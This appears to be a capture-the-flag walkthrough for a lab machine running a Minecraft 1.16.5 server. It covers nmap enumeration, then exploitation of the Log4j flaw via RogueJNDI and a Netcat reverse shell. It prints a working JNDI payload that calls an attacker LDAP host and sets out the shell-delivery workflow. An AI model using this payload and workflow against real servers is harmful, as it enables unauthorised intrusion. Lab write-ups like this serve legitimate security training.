

# Enumeration

## Nmap

``nmap -sV -sC <targetIP>``

The results reveals that only two ports are open. 

## HTTP

Browsing to port 80, 

The website is promoting a Minecraft server and includes links to features like a store, forums, and a voting page — though they’re all marked as “coming soon.” Since there’s nothing more to explore on the website itself, our next step is to turn our attention to the Minecraft service.

## Exploiting Minecraft

From the Nmap results, we found that the Minecraft server is running version 1.16.5. Looking into potential vulnerabilities for this version points us toward the well-known Log4j exploit, which affected several versions of Minecraft’s server edition. The developers recommended updating the affected libraries to patch this issue.

To see if this vulnerability can be used in our case, we first need a compatible Minecraft client for version 1.16.5. Once we download and launch the client, we test the connection by attempting to log in using an empty password — this helps us check whether or not authentication is enforced on the server.

At the password prompt we press Enter and we connect to the target server.

## Foothold

Now that we're successfully connected to the Minecraft server, the next step in attempting exploitation is to set up a tool called RogueJNDI. To do this, we open a second terminal window and begin by cloning the RogueJNDI GitHub repository. After downloading the code, we compile the project to prepare it for use in our exploit attempt.

Once compiled, we need to grab a Netcat executable to execute on the target.

We host a Python web server on a third terminal to collect Netcat from.

Netcat listener in another terminal.

In **rogue-jndi** folder in the other terminal, we execute the following command to start malicious LDAP server.

In the first terminal, which we’re using to interact with the remote Minecraft server, we check the command-line interface (CLI) documentation and find that the /send command can be used to send messages to the server. Based on this, we build a custom message containing our payload. When this message is sent, it will trigger the exploit we’ve set up.

``/send ${jndi:ldap://10.10.16.29:1389/o=reference}``

Like this, example:

After sending the message containing the payload, we check our Netcat listener and see that we
have a shell on the system as svc_minecraft .

The user flag can be found at C:\Users\svc_minecraft\Desktop\user.txt.

# Learnings

- Minecraft Exploitation: Found vulnerable version (1.16.5) affected by Log4j.

- RogueJNDI: Cloned, built with Maven (mvn package), used for LDAP payloads.

- Python HTTP Server: Hosted Netcat executable.

- Netcat: Used to set up listener and capture reverse shell.

- Payload Delivery: Used /send ${jndi:...} to trigger exploit from Minecraft chat.

- Shell Access: Gained reverse shell as svc_minecraft.

# Reference

Pho3. (2025, January 17). Crafty walkthrough (Document No. D25.100.319) [PDF]. theblxckcicada
